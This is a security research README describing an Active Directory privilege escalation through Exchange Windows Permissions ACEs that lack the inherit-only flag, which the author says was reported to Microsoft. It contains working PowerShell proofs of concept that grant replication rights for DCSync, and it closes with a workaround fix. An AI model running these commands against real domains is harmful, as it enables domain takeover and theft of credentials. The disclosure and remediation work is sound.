 # Exchange-AD-Privesc

This repository provides a few techniques and scripts regarding the impact of Microsoft Exchange deployment on Active Directory security. This is a side project of [AD-Control-Paths](https://github.com/ANSSI-FR/AD-control-paths), an AD permissions auditing project to which I recently added some Exchange-related modules.

## General considerations

For pentesters looking to take control of an AD domain, Exchange is a valid intermediary target. The servers are much less secured than domain controllers by default and the control groups are distinct in the usual permissions models, which provides numerous alternative targets.
They are also more difficult to migrate and business critical, so organizations often adopt a slower migration process for Exchange than for AD and do not specifically harden the servers.

Exchange deployment on an Active Directory domain is an interesting case. Many attributes and classes are added to the schema, security groups are created and DACL on some AD objects are heavily modified. 

Basically, you can select among 3 permissions models:

* RBAC Split (recommended and most commonly deployed)
* Shared permissions (default)
* AD Split

Particularly, DACLs for RBAC Split and Shared models are enumerated here: https://technet.microsoft.com/en-us/library/ee681663(v=exchg.150).aspx .


High value targets:

* **Exchange Trusted Subsystem** and **Exchange Windows Permissions** groups, which are trustees for many ACE added during deployment on AD objects.
* Exchange servers: they are members of **Exchange Trusted Subsystem** and **Exchange Windows Permissions** groups. They can be compromised using many more techniques than domain controllers: local administrators domain accounts, Kerberos delegation, SMB relay, RODC replication, etc. The usual stuff.
* Organization admins: they are part of the local administrators group on Exchange servers. They also have full control on the OU containing the Exchange security groups. They can launch service/psexec/runas/... under computer identity/NetworkService/LocalSystem to control **Exchange Trusted Subsystem** and **Exchange Windows Permissions** SIDs.

## 1. Domain object DACL privilege escalation

A privilege escalation is possible from the **Exchange Windows permissions** (EWP) security group to compromise the entire prepared Active Directory domain.

DISCLAIMER: This issue has been responsibly disclosed to MSRC in October 2017 and after a few back and forth emails, they decided it was working as intended and would not fix it.

* Description of the issue

When preparing Exchange 2010/2013/2016 installation in Shared permissions (default) or RBAC split permissions, some ACEs are positioned on the domain object for the **Exchange Windows Permissions** security group.
This happens during the "Setup /PrepareDomain" command.

Two ACEs on the domain object are missing the INHERIT_ONLY_ACE bit in the Flags field. 

This is their SDDL representation :

```
(OA;CI;DTWD;;4828cc14-1437-45bc-9b07-ad6f015e5f28;<SID of EWP>)
(OA;CI;DTWD;;bf967aba-0de6-11d0-a285-00aa003049e2;<SID of EWP>)
```

Notice the missing 'IO' (inherit_only) flag. As a matter of fact, INHERITED_OBJECT_TYPE ACE effectively apply to the object itself when the inherit_only flag is not set.

This is how they are documented on Technet, so it is definitely missing that information:


| Account | ACE type | Inheritance | Permissions | On property/ Applies to | Comments |
| ------- | -------- | ----------- | ----------- | ----------------------- | -------- |
| Exchange Windows Permissions | Allow ACE | All | WriteDACL | / user | |
| Exchange Windows Permissions | Allow ACE | All | WriteDACL | / inetOrgPerson | |



This is how they appear in the GUI (DSA console), which is also missing that information:

![DSA ACE view](DSA_ACE_view.png "DSA ACE view")

The issue can be confirmed in the "Effective Access" tab of the domain object when specifying EWP.

![DSA effective access](DSA_effective_access.png "DSA effective access")


Coincidentally, INHERITED_OBJECT_TYPE ACE created with DSA console always have the IO flag. Creating a 'self and specific descendents', INHERITED_OBJECT_TYPE ACE is only possible programmatically and only viewable programmatically.


* Technical consequence

The Allow permission to WriteDACL is granted to the Trustee on the domain object itself and not only on its user/inetOrgPerson descendants, effectively giving complete control to anyone with the **Exchange Windows Permissions** SID in its token.

* Expected behavior

The Allow permission to WriteDACL should only be given on child objects matching the INHERITED_OBJECT_TYPE Guid. It is supposed to only apply to user or inetOrgPerson classes.
This is not consistent with the other INHERITED_OBJECT_TYPE ACEs on the domain object for the same Trustee, which all have the INHERIT_ONLY_ACE bit in the Flags field.


* Security Consequence

A privilege escalation is possible from the **Exchange Windows permissions** (EWP) security group to compromise the entire prepared Active Directory domain. Just set the Ds-Replication-Get-Changes-All extended right on the domain object. This is enough to use a DRSUAPI replication tool ala DCSync to get all the domain secrets (Kerberos keys, hashes, etc.).

You can control the SID of the EWP group from **Organization management**, from **Account operators** or from any Exchange server.
Interestingly, the RBAC system is proxified through EWP so a privilege escalation is possible from the *Active Directory Permissions* RBAC role to compromise the entire prepared Active Directory domain.


* Proof of concept 1: Set-Acl (or with DSA console)

From an **Organization Management** member account, add yourself to **Exchange Windows Permissions**.
This is possible by default (see the above technet page).

```
$id = [Security.Principal.WindowsIdentity]::GetCurrent()
$user = Get-ADUser -Identity $id.User
Add-ADGroupMember -Identity "Exchange Windows Permissions" -Members $user
```

RELOG to update groups in your token then give yourself Ds-Replication-Get-Changes-All extended right on the domain object.

```
$acl = get-acl "ad:DC=test,DC=local"
$id = [Security.Principal.WindowsIdentity]::GetCurrent()
$user = Get-ADUser -Identity $id.User
$sid = new-object System.Security.Principal.SecurityIdentifier $user.SID
# rightsGuid for the extended right Ds-Replication-Get-Changes-All
$objectguid = new-object Guid  1131f6ad-9c07-11d1-f79f-00c04fc2dcd2
$identity = [System.Security.Principal.IdentityReference] $sid
$adRights = [System.DirectoryServices.ActiveDirectoryRights] "ExtendedRight"
$type = [System.Security.AccessControl.AccessControlType] "Allow"
$inheritanceType = [System.DirectoryServices.ActiveDirectorySecurityInheritance] "None"
$ace = new-object System.DirectoryServices.ActiveDirectoryAccessRule $identity,$adRights,$type,$objectGuid,$inheritanceType
$acl.AddAccessRule($ace)
Set-acl -aclobject $acl "ad:DC=test,DC=com"
```


* Proof of concept 2: RBAC Add-ADPermission

The following Powershell code, executed by a user account with the RBAC role *Active Directory Permissions*, sets the Ds-Replication-Get-Changes-All extended right on the domain object.

```
$id = [Security.Principal.WindowsIdentity]::GetCurrent()
Add-ADPermission "DC=test,DC=local" -User $id.Name -ExtendedRights Ds-Replication-Get-Changes-All
```

* Workaround fix

Use the Fix-DomainObjectDACL.ps1 Powershell script in this repository. Read it, test it, use it at your own risk.

By default, it checks the two faulty ACE, this can be done by any user. Use with -Fix switch with Domain Admins privileges to set the inherit_only missing flags.


Another option is doing it manually with LDP. Bind as a Domain Admin account with the usual precautions, as you will change the domain object DACL.
Locate the 2 faulty ACE in the DACL of the domain object: you can sort by Trustee to see Exchange Windows Permissions, there will only be 2 ACE with "Write DACL,..." Rights.
Check the 'Inherit only' box in their ACE flags field. 


